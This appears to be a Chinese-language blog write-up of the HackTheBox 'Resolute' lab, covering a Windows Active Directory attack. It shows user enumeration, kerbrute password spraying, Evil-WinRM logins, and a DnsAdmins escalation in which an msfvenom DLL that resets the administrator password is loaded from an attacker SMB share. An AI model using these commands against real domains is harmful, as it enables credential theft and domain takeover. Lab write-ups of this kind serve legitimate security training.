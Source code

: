 ```yaml
---
title: "HTB-Resolute"
date: 2025-01-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Resolute  
❯ nmap Resolute.htb -sV -T4

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos 
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

把**megabank.local**添加到**/etc/hosts**

## UserEnum

```
[root@kali] /home/kali/Resolute  
❯ enum4linux -a megabank.local  

--or you can use this below

[root@kali] /home/kali/Resolute  
❯ rpcclient -U "" -N 10.10.xx.xx
rpcclient $> enumdomusers

--results
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

通过**kerbrute**检查是否存在

```
[root@kali] /home/kali/Resolute  
❯ kerbrute userenum -d megabank.local usernames.txt --dc 10.10.xx.xx                                                     

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

  Using KDC(s):
   10.10.xx.xx:88
  [+] VALID USERNAME:       Administrator@megabank.local
  [+] VALID USERNAME:       sally@megabank.local
  [+] VALID USERNAME:       ryan@megabank.local
  [+] VALID USERNAME:       marko@megabank.local
  [+] VALID USERNAME:       abigail@megabank.local
  [+] VALID USERNAME:       sunita@megabank.local
  [+] VALID USERNAME:       marcus@megabank.local
  [+] VALID USERNAME:       angela@megabank.local
  [+] VALID USERNAME:       fred@megabank.local
  [+] VALID USERNAME:       stevie@megabank.local
  [+] VALID USERNAME:       felicia@megabank.local
  [+] VALID USERNAME:       ulf@megabank.local
  [+] VALID USERNAME:       gustavo@megabank.local
  [+] VALID USERNAME:       annette@megabank.local
  [+] VALID USERNAME:       claire@megabank.local
  [+] VALID USERNAME:       paulo@megabank.local
  [+] VALID USERNAME:       steve@megabank.local
  [+] VALID USERNAME:       annika@megabank.local
  [+] VALID USERNAME:       claude@megabank.local
  [+] VALID USERNAME:       zach@megabank.local
  [+] VALID USERNAME:       melanie@megabank.local
  [+] VALID USERNAME:       per@megabank.local
  [+] VALID USERNAME:       naoki@megabank.local
  [+] VALID USERNAME:       simon@megabank.local
```

我使用**impacket-GetNPUsers**查询了未设置预认证的用户，没有发现任何东西

在**rpcclient**里查询用户信息的时候我发现了**marko**用户泄露的密码（很碰巧

![](./images/image-40.png)

## PasswordSpray

密码无法直接登录到**marko**的账户，尝试使用**kerbrute**密码喷射尝试认证

```
[root@kali] /home/kali/Resolute  
❯ kerbrute passwordspray  -d 'megabank.local' --dc 'megabank.local'  usernames.txt 'xxxxxxxxx'    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

  Using KDC(s):
   megabank.local:88
  [+] VALID LOGIN:  melanie@megabank.local:xxxxxxxxxxx
  Done! Tested 27 logins (1 successes) in 0.909 seconds
```

可以看到**melanie**用这个密码成功登录

使用**Evil-Winrm**登录拿到**user.txt**

![](./images/image-41.png)

## Privilege Escalation

可以看到还存在另一个**ryan**用户

![](./images/image-42.png)

### Hidden Files

使用`dir -force`可以列出隐藏文件

![](./images/image-43.png)

发现了一个隐藏的文件

![](./images/image-44.png)

发现了**ryan**的密码

![](./images/image-45.png)

登录后在桌面发现一个留言，除了管理员其他任何改动都会在一分钟内恢复

![](./images/image-46.png)

### DNS DLL Inject

- [](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)[From DnsAdmins to SYSTEM to Domain Compromise | Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

- [](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)[Escalating Privileges with DNSAdmins Group | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)

从**bloodhound**来进行分析可以看出，**ryan**用户简介属于**Dnsadmins**这个组

![](./images/image-47.png)

使用**msfvenom**生成一个带有修改管理员密码载荷的恶意**dll**文件

```
[root@kali] /home/kali/Resolute  
❯ msfvenom -p windows/x64/exec cmd='net user administrator 12345678 /domain' -f dll > hack.dll                                     ⏎
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 307 bytes
Final size of dll file: 9216 bytes
```

本地打开smb服务让ryan连接

```
[root@kali] /home/kali/Resolute  
❯ impacket-smbserver share ./                                                                                                      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

然后在**ryan**的终端里修改**dns**设置

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.xx.xx\share\hack.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully
```

然后重启**dns**服务

```
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns
```

最后使用**evil-winrm**登录拿到**root.txt**

![](./images/image-48.png)

## Summary

**User**：在进行**enum4linux**枚举的时候，发现了用户信息的泄露，并且允许了匿名访问，因此在**rpcclient**里查看到了泄露的密码，通过密码喷射找出正确的用户名，最后登录拿到**user.txt**

**Root**：**Windows**下的隐藏文件使用`dir -force`可以列出，通过泄露拿到另一个用户**ryan**的密码。经过**bloodhound**分析，发现**ryan**是**dnsadmin**可以控制域内的**DNS**服务，因此使用恶意的**DNS DLL**进行注入，强制修改域内管理员的密码（在**note**中得知管理员密码不会被恢复），随后远程登录拿到**root.txt**。

又学到新东西了！！！
